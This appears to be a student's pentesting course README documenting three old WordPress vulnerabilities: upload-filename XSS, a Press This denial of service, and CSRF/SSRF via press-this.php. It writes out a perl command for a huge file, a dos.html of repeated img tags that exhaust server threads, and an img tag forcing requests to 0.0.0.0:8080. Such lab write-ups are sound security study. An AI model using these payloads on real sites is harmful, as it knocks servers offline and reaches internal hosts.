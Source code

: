 
# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID 8819
  - [ ] Summary: Inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel.
  Two different "file to large" cases end up in interpolating the file name and appending it into DOM unsanitized leading to XSS.
    - Vulnerability types:injecting a scpript 
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8819.gif
  - [ ] Steps to recreate: step 1: downloading a 20mb file
  2. Changing file name in order to expoloit it
  3. upload it to http://localhost/wp-admin/media-new.php
  - [ ] Affected source code:
    - [Link 1](https://hackerone.com/reports/203515)
    
    
2. (Required) Vulnerability Name or ID 8770
  - [ ] Summary: 
The Press This [4] function allows quick publishing with a special web
browser bookmarklet. An admin can also visit the Press This page
directly. One of the features of Press This is scanning an external
server for embeddable content. This is done with a GET request to:

https://www.securify.nl/wp-admin/press-this.php?u=<URL>&url-scan-submit=Scan

When this URL is called, Press This will download the contents located
at "URL" and look for content such as images and other embeddable
elements.
 This property can be abused by setting the
external URL to a huge file and have an authenticated admin visit it.
The PHP process will use 100% of its CPU resources to process the file.
If an authenticated admin can be lured to an external page, then the
malicious URL can be called many times, blocking all PHP server threads.
This will cause the server to be unreachable for a while.
    - Vulnerability types: DDOS
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8770.gif
  - [ ] Steps to recreate:  
1. Install plug in Press This
2. Send get request on press this
3. On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
4.Create a file dos.html on the external server with enough entries
to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external
server> with the external server)
  5. Now have a logged in admin visit dos.html. The server will be down for a
while.
  - [ ] Affected source code: https://hackerone.com/reports/153093
    - [Link 1](https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829)
  
  
3. (Required) Vulnerability Name or ID 8376
  - [ ] Summary: 
The url http://xxx.xxx.xxx.xxx/wp-admin/press-this.php?u=URL_TO_SCRAPE&url-scan-submit=Scan does not validate that user intends to send a scrape request.
The filter does not validate for 0.0.0.0:PORT and allows the attacker to make the victim send GET request to servers priate127.0.0.1:PORT, localhost:PORT or anything which can be accessed via 0.0.0.0

So basicly a wordpress installations can send unwanted scrape/scan requests on behalf of their user invoked by the attacker. Including private connections via 0.0.0.0
    - Vulnerability types: Cross-Site Request Forgery (CSRF)
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
1. Sign in to owner of myWordpress.com
2. Victim is logged into Wordpress.
3. Victim visits bad site with a content of`<img src="//myWordpress.com/wp-admin/press-this.php?u=htto://0.0.0.0:8080&url-scan-submit=Scan" />
4. Victim sends a unwanted request to their server requesting a internal server address to be hit.
5.Server sends get request to 0.0.0.0:8080
6. Servers private 127.0.0.1 answers back.
This example is with a private address, but it could also be a public. address
  - [ ] Affected source code: (https://hackerone.com/reports/110801)
    - [Link 1](https://hackerone.com/reports/110801)
    https://core.trac.wordpress.org/changeset/36435
    https://wpvulndb.com/vulnerabilities/8376
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2222
https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release/


    
    
    
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

dos.html, dos, 

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

All of these challenges are very hard to find and follow as I am a Fincanca major with zero computing and linux background.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
